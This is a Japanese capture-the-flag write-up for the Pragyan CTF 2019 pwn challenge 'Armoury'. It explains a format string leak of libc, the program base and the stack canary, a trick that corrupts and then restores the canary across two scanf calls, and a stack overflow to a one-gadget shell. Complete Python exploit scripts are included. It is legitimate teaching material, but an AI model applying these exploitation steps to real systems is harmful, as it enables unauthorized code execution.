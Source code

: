 # [pwn 400pts] Armoury - Pragyan CTF 2019
64ビットバイナリで，PIEやSSPも有効です．
```
$ checksec armoury 
[*] '/home/ptr/writeups/2019/PragyanCTF_2019/armoury/armoury'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
IDAで解析しましょう．

scanfでライフルの名前を取得し，リストに存在すればそのファイルを表示します．
ただし，scanfした後にprintfでそのまま出力しているのでFSBが存在します．
したがって，PIEやASLRは回避できそうです．
また，この処理は2回だけ実行できるので，FSBも2回実行できます．

ループを抜けると最後にフィードバックを書くことができますが，ここでスタックオーバーフローが存在します．
ということで，Format String ExploitとStack Overflowを利用してシェルを取りましょう．

まずはlibc baseとproc baseを取得するのですが，ついでにStack Canaryの値も取得します．
スタック上には`main`のアドレスと`__libc_start_main`へのリターンアドレスがあったので，これを使います．
なお，`__libc_start_main`のリターンアドレスをlibc databaseで調べるとlibcのバージョンが分かりました．

FSBは簡単にアドレスをリークできるので便利ですね．
```python
from ptrlib import *

#sock = Socket("159.89.166.12", 16000)
sock = Socket("localhost", 16000)
elf = ELF("./armoury")

# leak proc_base and libc_base
sock.recvuntil("info:\n")
sock.sendline("%15$p.%19$p.%13$p.")
sock.recvuntil("-\n")
addrlist = sock.recvline().split(b".")
addr_libc_start_main = int(addrlist[0], 16)
addr_main = int(addrlist[1], 16)
canary = int(addrlist[2], 16)
proc_base = addr_main - elf.symbol('main')
libc_base = addr_libc_start_main - 0x021b97
print("[+] libc_base = " + hex(libc_base))
print("[+] proc_base = " + hex(proc_base))
print("[+] canary = " + hex(canary))
```


さて，Stack Overflowでリターンアドレスを書き換えるにはcanaryを壊さない必要があるのですが，scanfを利用しているためNULL文字が使えません．
canaryは先頭に必ずNULL文字が入っているため，このままではリターンアドレスを変更できません．

競技中にはここでしばらく悩んだのですが，FSBの方のscanfを利用できます．
FSBの方の（ライフルの名前を取得する）scanfにもオーバーフロー脆弱性があるので，2回目のscanfでcanaryの先頭のNULL文字を破壊してリターンアドレスを書き換えます．
そしてフィードバックの方のscanfでcanaryを正しい値に戻します．
scanfは終端をNULL文字で埋めてくれるので，先程破壊したcanaryの最初のNULLを元に戻すことができます．

あとはone gadget rceにジャンプすればシェルが取得できます．
```python
from ptrlib import *

#sock = Socket("159.89.166.12", 16000)
sock = Socket("localhost", 16000)
elf = ELF("./armoury")

# leak proc_base and libc_base
sock.recvuntil("info:\n")
sock.sendline("%15$p.%19$p.%13$p.")
sock.recvuntil("-\n")
addrlist = sock.recvline().split(b".")
addr_libc_start_main = int(addrlist[0], 16)
addr_main = int(addrlist[1], 16)
canary = int(addrlist[2], 16)
proc_base = addr_main - elf.symbol('main')
libc_base = addr_libc_start_main - 0x021b97
print("[+] libc_base = " + hex(libc_base))
print("[+] proc_base = " + hex(proc_base))
print("[+] canary = " + hex(canary))

# calc something...
addr_system = libc_base + 0x04f440
addr_binsh = libc_base + 0x1b3e9a
addr_rce = libc_base + 0x4f2c5 # one gadget rce

# overwrite ret addr
payload = "A" * 0x27
payload += p64(canary).replace('\x00', 'A') # temp canary
payload += "A" * 8
payload += p64(addr_rce)
sock.recvuntil("info:\n")
sock.sendline(payload)

# set correct canary
payload = "A" * 0x18
sock.recvuntil("feedback:\n")
sock.sendline(payload)

sock.interactive()
```

# 感想
競技中も解いてて面白かった記憶があります．
scanfの性質を上手く利用した問題ですね．